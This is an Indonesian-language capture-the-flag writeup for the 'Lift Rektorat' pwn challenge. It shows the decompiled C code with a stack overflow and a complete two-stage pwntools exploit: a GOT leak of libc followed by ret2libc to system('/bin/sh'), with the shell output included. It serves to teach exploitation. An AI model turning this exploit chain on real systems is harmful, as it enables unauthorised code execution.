 +++
title = "AgriHack 0x2 - Lift Rektorat Writeup"
date = "2017-11-24 00:38:01"
categories = ["pwn", "writeup"]
+++

> _**Lift Rektorat (300 pts)**_ Kamu sedang berada direktorat karena kamu hendak menemui rektor karena kamu ditunjuk menjadi kepala keamanan cyber di IPB. Tiba-tiba terjadi sebuah insiden yang membuat kamu tersadar, bahwa bahkan lift rektorat memiliki celah untuk dieksploitasi. Tunjukkan bagaimana kamu mengeksploitasi celah tersebut. -- binary --

_**Solusi:**_ Diberikan binary ELF 32-bit dengan NX bit enabled dan tanpa stack canary. Dapat di-_ramal-_kan sekiranya soal ini di_solve_ dengan return to libc karena stack sendiri tidak dapat dieksekusi.

```C
unsigned int danger()
{
  char s; // [esp+Eh] [ebp-4Ah]

  strcpy(aSelamatDatangD, "|            Peringatan Bahaya Lift Berhenti Berfungsi                |");
  strcpy(aSilahkanMasuka, "|              Silahkan Kirimkan Pesan Kepada Petugas                 |");
  cetak(0);
  puts("|--------------------||-------------||------------||------------------|");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|____________________||-------------||------------||__________________|");
  printf("Pesan : ");
  fgets(&s, 200, stdin);
  strcpy(aSelamatDatangD, "|                        Pesan Terkirim                               |");
  strcpy(aSilahkanMasuka, "|            Silahkan Menunggu Sejenak dan Tetap Tenang               |");
  cetak(0);
  puts("|--------------------||-------------||------------||------------------|");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|____________________||-------------||------------||__________________|");
  return sleep(5u);
}

int __cdecl main(int argc, const char \*\*argv, const char \*\*envp)
{
  int v3; // ST08_4
  int v4; // ST0C_4
  int v6; // [esp-4h] [ebp-28h]
  int v7; // [esp+0h] [ebp-24h]
  char v8; // [esp+7h] [ebp-1Dh]
  int i; // [esp+8h] [ebp-1Ch]
  int *v10; // [esp+14h] [ebp-10h]

  v10 = &argc;
  setvbuf(stdout, 0, 2, 0);
  cetak(0);
  if ( !__isoc99_scanf("%d", &v7, v3, v4, v6, v7) || v7 > 12 )
  {
    strcpy(aSelamatDatangD, "|                          Mohon Maaf                                 |");
    strcpy(aSilahkanMasuka, "|                 Lantai yang Anda Masukan Salah                      |");
    cetak(0);
    puts("|--------------------||-------------||------------||------------------|");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|____________________||-------------||------------||__________________|");
    exit(0);
  }
  do
    v8 = getchar();
  while ( v8 != 10 && v8 != -1 );
  strcpy(aSelamatDatangD, "|                     Bogor Agricultural University                   |");
  strcpy(aSilahkanMasuka, "|                     Searching and Serving The Best                  |");
  for ( i = 1; i <= v7; ++i )
  {
    sleep(2u);
    byte_804B0C4[5 * i - 2] = ' ';
    byte_804B0C4[5 * i + 2] = ' ';
    byte_804B0C4[5 * (i + 1) + 2] = '|';
    byte_804B0C4[5 * (i + 1) - 2] = '|';
    cetak(i);
    puts("|--------------------||-------------||------------||------------------|");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|____________________||-------------||------------||__________________|");
    if ( i == 7 )
    {
      danger();
      strcpy(aSelamatDatangD, "|                     Bogor Agricultural University                   |");
      strcpy(aSilahkanMasuka, "|                     Searching and Serving The Best                  |");
    }
  }
  cetak(i - 1);
  puts("|--------------------||                           ||------------------|");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|____________________||                           ||__________________|");
  return 0;
}
```

Terlihat kalau dalau dari source code, fungsi `danger` ada bug klasik stack buffer overflow pada fungsi fgets, yang me-overflow- `char s`. `danger` sendiri dipanggil saat iterasi i ke-7, user juga dapat mengontrol sampai berapa iterasi dilaksanakan. Lanjut ke permasalahan kedua, saved EIP bisa dikontrol dengan stack buffer overflow, tapi mau return kemana? return2libc perlu leaked libc address. Nah, teringat kalau binary ini adalah 32-bit jadi gaperlu repot-repot setup ROP yang terlihat magis, tinggal push GOT puts ke stack, trus print dengan menggunakan PLT puts _lagi_. Agar exploit berlanjut terus jangan lupa untuk return ke fungsi `danger` lagi untuk lanjut ke Stage ke-2 yakni return ke system dan exec /bin/sh. system address bisa dikalkulasi dengan bantuan libcdb. Dengan demikian strategi yang bisa ditulis pada code,

1.  Leak libc address, dengan push alamat suatu GOT lalu memanggil puts dan kembali ke danger
2.  Kalkulasi system dan /bin/sh dari libc address
3.  Input buffer == junk[78] + system + char junk[4] +  binsh
4.  profit

Berikut codenya,

```python
#!/usr/bin/python2
from pwn import *
r = process(['./lift_rektorat'])
lift = ELF('./lift_rektorat')

log.info('--------- STAGE 1 ---------')

buf = "A" * 78 #junk
buf += p32(lift.plt['puts']) # call puts
buf += p32(lift.symbols['danger']) # return back to danger
buf += p32(lift.got['puts']) # GOT

r.sendline("7") # control the iteration
r.sendline(buf)
r.recvuntil('Pesan Terkirim')
r.recvuntil('|____________________||-------------||------------||__________________|')
r.recvline()

log.info('--------- STAGE 2 ---------')

libc_puts = int(u32(r.recvn(4))) # leaked libc address
# local libc, saelo's vm ctfbox, Ubuntu 14.04.5 LTS, vagrant
puts_offset = 0x00064da0
system_offset = 0x0003fe70
str_bin_sh_offset = 0x0015ff0c

libc_base = libc_puts - puts_offset
libc_system = libc_base + system_offset
libc_bin_sh = libc_base + str_bin_sh_offset

buf = "A" * 78 # junk
buf += p32(libc_system)
buf += "DEAD" # junk
buf += p32(libc_bin_sh)

r.sendline(buf)
r.interactive()
```

_**$profit**_

```
[+] Starting local process './lift_rektorat': pid 5802
[*] '/home/vagrant/ctf/agrihack0x2/lift_rektorat'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] --------- STAGE 1 ---------
[*] --------- STAGE 2 ---------
[*] Switching to interactive mode
\x86\x84\x0�    ]��a��`�
[..redacted..]
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$ whoami
vagrant
```

_**Solved!**_

* * *

Sedikit cerita dibalik penemuan flag pada soal kali ini, sebelum saya mengerjakan soal ini sendiri, saya belum paham apa itu ROP dan berbagai macam permasalahan pada soal disini. **Lesson learned:** 32-bit calling convention, ret2libc, simple ROP.